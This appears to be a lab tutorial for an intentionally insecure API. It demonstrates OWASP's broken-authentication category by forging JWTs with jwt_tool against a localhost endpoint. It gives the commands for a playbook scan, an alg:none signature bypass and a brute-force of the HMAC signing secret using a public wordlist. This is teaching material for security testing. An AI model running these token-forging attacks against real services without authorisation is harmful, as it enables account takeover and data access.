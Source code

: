 # Insecure API

## API2:2023 Broken Authentication

We try to forge a JWTs using several well known attack types (using the playbook mode of the JWT_Tool):

Login using http://localhost:9090/api/v1/users/login
and specify the credentials `bruce.wayne@example.com / wayne` to log in and grab the returned JWT

```shell
export JWT=<the JWT you just grabbed>
```

Now try this playbook attack with the JWT you grabbed to find any vulnerabilities at http://localhost:9090/api/v1/partner:

```shell
./jwt_tool.py -t http://localhost:9090/api/v1/partner -rh "Authorization: Bearer $JWT" -cv "Here is your data for partner bruce.wayne@example.com (Bruce Wayne)" -M pb -np
```

After performing the playbook you see which attacks seemed to be successful.
Then you might try a specific attack type separately, like the exploit specifying the `none` signature algorithm as `alg:none`:

```shell
./jwt_tool.py -t http://localhost:9090/api/v1/partner -rh "Authorization: Bearer $JWT" -cv "Here is your data for partner bruce.wayne@example.com (Bruce Wayne)" -X a -np
```

In our case this is successful:

![JWT_Tool](images/jwt_tool_attack.png)

Finally try to brute force the JWT to find out the secret for signing a JWT using the symmetric HMAC signature algorithm
`jwt_tool.py $JWT -C -d jwt.secrets.list`

The secrets list was just grabbed from https://github.com/wallarm/jwt-secrets.

